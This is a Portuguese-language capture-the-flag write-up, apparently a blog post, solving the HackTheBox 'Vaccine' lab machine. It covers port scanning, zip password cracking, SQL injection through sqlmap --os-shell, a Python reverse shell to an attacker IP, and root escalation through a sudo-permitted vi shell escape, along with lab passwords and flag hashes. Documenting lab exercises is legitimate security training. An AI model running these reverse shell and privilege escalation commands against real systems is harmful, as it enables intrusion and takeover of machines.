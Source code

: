 ```yaml
---
description: CTF do Hack The Box como fiz e anotações.
title: HackTheBox - Vaccine - Fácil
date: 2024-01-14 04:22:00 +/-0300
categories: [CTF, HackTheBox]
tags: [ctf, hackthebox, linux, sudo, web, facil, sqli, walk]     # TAG names should always be lowercase
show_image_post: true
---
```

![logo](/assets/img/vaccinelogo.png){: w="100" h="100" .left}

---
# **CTF - HTB Vaccine - Fácil**
---
---
## **Enumeração**

### nmap

```shell
sudo nmap -sS -Pn -n --disable-arp-ping --stats-every=7s -sC 10.129.254.54 -T4 -p 21,22,80 --min-rate 10000 -oA nmap 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-12 04:31 EST
Nmap scan report for 10.129.254.54
Host is up (0.15s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.151
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set

```
{: .nolineno }
### gobuster

```shell
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.129.254.54/.htpasswd            (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess.old        (Status: 403) [Size: 278]
http://10.129.254.54/.htpasswd.old        (Status: 403) [Size: 278]
http://10.129.254.54/.htpasswd.txt        (Status: 403) [Size: 278]
http://10.129.254.54/.htpasswd.php        (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess.php        (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess.txt        (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess            (Status: 403) [Size: 278]
http://10.129.254.54/dashboard.php        (Status: 200) [Size: 2312]
http://10.129.254.54/index.php            (Status: 200) [Size: 2312]
http://10.129.254.54/license.txt          (Status: 200) [Size: 1100]
http://10.129.254.54/server-status        (Status: 403) [Size: 278]
Progress: 81876 / 81880 (100.00%)
===============================================================
```
{: .nolineno }

A pagina inicial é uma tela de login.  
O ftp permite login anonymous, encontrando backup.zip com senha -> "741852963", resolvida com John The Ripper.

``
$zip2john backup.zip > hash  
``  
``
$john hash
``

Dentro do zip foi encontrado:
index.php
onde contem login e senha.

```php
admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") 
```
{: .nolineno }

Hash "2cb42f8734ea607eefed3b70af13bbd3" = "qwerty789".  
Obtida em banco de dados de algum site.  
login e senha aceitos na pagina inicial;

Pagina Web vulnerável a SQLInjection.

![sqli](/assets/img/vaccine1.png)

## **Acesso**

### Reverse Shell

Com sqlmap foi possível confirmar e ler o db, nada de util, porem existe a opção ``--os-shell``
que você pode executar um comando, no caso vamos usar para executar uma reverse shell.

`sqlmap -u 'http://10.129.254.54/dashboard.php?search=a' --cookie="PHPSESSID=pt0gp6cl43a3lvq63atkn90j7b" --os-shell`

o `--cookie` é necessário para manter a sessão

comando de reverse shell executado

python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.151",4443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")'

Shell Upgrade

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'  
CTRL+Z  
stty raw -echo  
fg  
export TERM=xterm  
```
{: .nolineno }

## **Obtendo credenciais**

Pegando a senha do db em: cat  /var/www/html/dashboard.php  
`user=postgres password=P@s5w0rd!"`

A shell cai e poucos minutos e com essa senha podemos logar via ssh.

### Primeira flag

`cat user.txt`  
`ec9b13ca4d6229cd5cc1e09980965bf7`  

## **Escalação de Privilégio**  

Agora podemos executar o sudo -l  e ver algum possível escalamento de privilégio.  

```shell
$sudo -l
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
  {: .nolineno }

  Consultando o  [GTO](https://gtfobins.github.io/gtfobins/vi/#sudo) ele nos da essa opção
  
`  sudo vi -c ':!/bin/sh' /dev/null`
   
```shell
postgres@vaccine:~$ sudo vi -c ':!/bin/sh' /dev/null
Sorry, user postgres is not allowed to execute '/usr/bin/vi -c :!/bin/sh /dev/null' as root on vaccine.
```
{: .nolineno }

Só podemos usar o vi em `etc/postgresql/11/main/pg_hba.conf`,
  a alternativa que o GTO nos da é:
  
`vi`  
`:set shell=/bin/sh`  
`:shell`

sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
usamos:  
`:`  
`set shell=/bin/sh`  
`[enter]`   
`:`  
`shell`  
`[enter]`  

### Ultima flag
```shell
$whoami  
root
$root@vaccine:~# cat root.txt 
dd6e058e814260bc70e9bbdef2715849
$root@vaccine:~# 
```
{: .nolineno }
![pwned](/assets/img/vaccine3.png)